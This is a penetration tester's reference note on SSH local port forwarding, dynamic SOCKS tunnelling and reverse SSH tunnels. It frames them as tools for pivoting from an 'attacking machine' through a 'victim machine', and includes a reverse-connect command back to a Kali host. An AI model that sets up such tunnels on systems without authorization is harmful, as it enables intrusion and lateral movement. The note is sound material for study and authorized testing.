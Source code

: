 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

SSH Tunneling and Port Forwarding

SSH Port Forwarding

SSH port forwarding allows the forwarding of a specific port through a SSH connection

example usage:

~~~bash
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
~~~

Command Breakdown:

-L - creates the local port that is being used on the attacking machine
8000:172.16.0.10:80 - Localport:RemoteIP:RemotePort
user@172.16.0.5 - useraccount@RemoteIPwithSSHAccess
-fN - -f backgrounds the session and -N only sets up the connection

SSH Tunnelling

SSH Tunnelling allows for all traffic to be forwarded through a specific port on the attacking machine and passed through the victim computer

example usage:

~~~bash
ssh -D 1337 user@172.16.0.5 -fN
~~~

Command Breakdown:

-D - Creates proxy to tunnel traffic through on the local machine
1337 - Local port that the proxy is using
user@172.16.0.5 - useraccount@RemoteIPwithSSHAccess
-fN - -f backgrounds the session and -N only sets up the connection

Reverse SSH Tunnelling

Reverse SSH Tunnelling is the act of initiating the proxy connection from the victim machine to the attacker machine (the opposite of the above commands). For this, a SSH key will need to be generated on the Attacking machine to allow connections to create the proxy.

Steps to create a reverse ssh tunnell are listed below:

Generate Key Pair:

~~~bash
ssh-keygen
~~~

Create the SSH directory and the Authorized_Keys file:

~~~bash
mkdir ~/.ssh && touch ~/.ssh/authorized_keys
~~~

Copy the contents of the .pub file created with ssh-keygen. Edit the authorized_keys file that you created and add the following line before pasting the key in:

~~~bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty 
~~~

The final entry should look like this:

![[Pasted image 20230102132319.png]]

There should be no new lines, but the line that prepends the key should have a space after the no-pty

Next, check to see if SSH is running on your attacking machine:

~~~bash
systemctl status ssh
~~~

If it is not running, run the following command:

~~~bash
systemctl start ssh
~~~

Setting up the Reverse SSH Port Forwarding:

You can now use the private key on the victim machine to reverse ssh connect back to the attacker machine with the following command:

~~~bash
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
~~~

Command Breakdown:

-R - Creates the remote port on the attacker machine
8000:172.16.0.10:80 - AttackerMachineProxyPort:RemoteIP:RemotePort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-fN - -f backgrounds the session and -N only sets up the connection

Setting up the Reverse SSH Tunnelling:

You can now use the private key on teh victim machine to reverse ssh connect back to the attacker machine with the following command:

~~~bash
ssh -R 1337 kali@172.16.0.20 -i KEYFILE -fN
~~~

Command Breakdown:

-R - Creates the remote port on the attacker machine
1337 - AttackerMachineProxyPort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-fN - -f backgrounds the session and -N only sets up the connection

Cleanup Steps:

Check Processes and grep SSH sessions:

~~~bash
ps aux | grep ssh
~~~

Kill Process corresponding with SSH Session:

~~~bash
kill PID
~~~

